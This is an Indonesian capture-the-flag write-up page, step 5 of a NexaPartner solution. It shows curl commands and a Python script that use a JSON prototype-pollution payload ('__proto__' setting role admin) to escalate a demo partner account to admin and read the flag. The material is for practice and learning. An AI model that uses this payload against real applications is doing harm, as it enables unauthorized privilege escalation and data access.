

# NexaPartner — Eksploitasi / Solver

[← Overview](12-nexapartner.md) · [Index](index.md)

> **Langkah 5/9 — Eksploitasi / Solver.** Eksploitasi / Solver
>
> **Titik penting:** curl -sS -c cookies.txt -X POST \ · curl -sS -o /dev/null -w '%{http_code}\n' -b cookies.txt "$BASE/admin" · curl -sS -b cookies.txt -H 'Content-Type: application/json' \
>
> **Berikutnya:** [Output asli](12-nexapartner-06-output-asli.md)

## 3.1 Strategi

- Login sebagai partner demo.
- Kirim JSON proto pollution ke `/api/settings`.
- Ikuti redirect `/admin` → `/admin/audit` dan baca flag.

## 3.2 Langkah exploit (live)

```bash
BASE=http://s1.nfx.my.id:43965

# 1. login
curl -sS -c cookies.txt -X POST \
  -d 'email=partner@nexapartner.test&password=partner1234' \
  "$BASE/login"
# 302 /dashboard

# 2. pastikan admin ditolak
curl -sS -o /dev/null -w '%{http_code}\n' -b cookies.txt "$BASE/admin"
# 403

# 3. prototype pollution
curl -sS -b cookies.txt -H 'Content-Type: application/json' \
  -d '{"__proto__":{"role":"admin","isAdmin":true,"admin":true,"tier":"platinum"}}' \
  "$BASE/api/settings"
# {"ok":true,"settings":{...}}

# 4. admin sekarang redirect ke audit
curl -sS -i -b cookies.txt "$BASE/admin" | head -8
# HTTP/1.1 302 Found
# Location: /admin/audit

# 5. baca flag
curl -sS -b cookies.txt "$BASE/admin/audit" | grep -o 'NFX{[^}]*}'
# NFX{js0n_pr0t0_p0llut10n_4dm1n_byp4ss}
```

Script minimal:

```python
import requests, re

BASE = "http://s1.nfx.my.id:43965"
s = requests.Session()
s.post(BASE + "/login",
       data={"email": "partner@nexapartner.test", "password": "partner1234"},
       allow_redirects=False)

print("before:", s.get(BASE + "/admin", allow_redirects=False).status_code)  # 403

payload = {"__proto__": {"role": "admin", "isAdmin": True,
                         "admin": True, "tier": "platinum"}}
r = s.post(BASE + "/api/settings", json=payload)
print("pollute:", r.status_code, r.text)

r = s.get(BASE + "/admin", allow_redirects=True)
print("audit page:", r.status_code)
m = re.search(r"NFX\{[^}]*\}", r.text)
print("FLAG:", m.group(0) if m else "not found")
```

### Evidence langkah ini



*Terminal evidence — `03-exploit-evidence.txt` (arsip transkrip sesi solve).*

**Berkas mentah langkah ini:**

- [`03-exploit-evidence.txt`](assets/nexapartner/03-exploit-evidence.txt)
